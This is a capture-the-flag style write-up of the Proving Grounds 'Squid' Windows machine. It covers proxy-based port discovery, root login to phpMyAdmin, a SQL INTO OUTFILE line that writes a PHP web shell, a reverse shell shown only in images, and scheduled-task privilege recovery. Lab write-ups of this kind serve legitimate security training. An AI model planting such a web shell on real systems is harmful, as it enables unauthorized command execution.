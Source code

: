 ```yaml
---
title: "Squid"
date: 2025-06-20
categories:
  - Proving Grounds
  - Windows
tags:
  - Proving Grounds
  - Windows
---
```



# Squid 🔹
<!-- more -->

## Enumeration

![](../assets/Pasted%20image%2020250406204306.png)

Page at port `3128` is the `squid` proxy error page.

![](../assets/Pasted%20image%2020250406204544.png)

We can connect to the proxy for discovering more ports. We can use [https://github.com/aancw/spose](https://github.com/aancw/spose).

```shell
┌──(kali㉿kali)-[~/Desktop/spose]
└─$ python3 spose.py --proxy http://192.168.120.223:3128 --target 127.0.0.1
Using proxy address http://192.168.120.223:3128
127.0.0.1 3306 seems OPEN 
127.0.0.1 8080 seems OPEN  
```

A `mysql` service and a `wamp` service.
We can access the `wamp` one with `foxyproxy`.

![](../assets/Pasted%20image%2020250407180522.png)

## Initial Access

Now, accessing port `8080`, we can see the apps. Trying `root` with `phpmyadmin`.

![](../assets/Pasted%20image%2020250407180636.png)

Put a PHP shell:

```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/wshell.php';
```

And it can be accessed in the root.

So we can put an encoded PowerShell reverse shell and...

![](../assets/Pasted%20image%2020250407180817.png)

![](../assets/Pasted%20image%2020250407180855.png)

## Privilege Escalation

![](../assets/Pasted%20image%2020250407181101.png)

We have restricted permissions. From [this resource](https://github.com/itm4n/FullPowers), we find out that when a `LOCAL SERVICE` or `NETWORK SERVICE` is configured to run with a restricted set of privileges, permissions can be recovered by creating a `scheduled task`. The new process created by the `Task Scheduler Service` will have all the default privileges of the associated user account.

So, first, create a task:

![](../assets/Pasted%20image%2020250407181715.png)

![](../assets/Pasted%20image%2020250407182151.png)

![](../assets/Pasted%20image%2020250407182323.png)

![](../assets/Pasted%20image%2020250407182350.png)

## Post Exploitation

Get the flag.

![](../assets/Pasted%20image%2020250407182404.png)
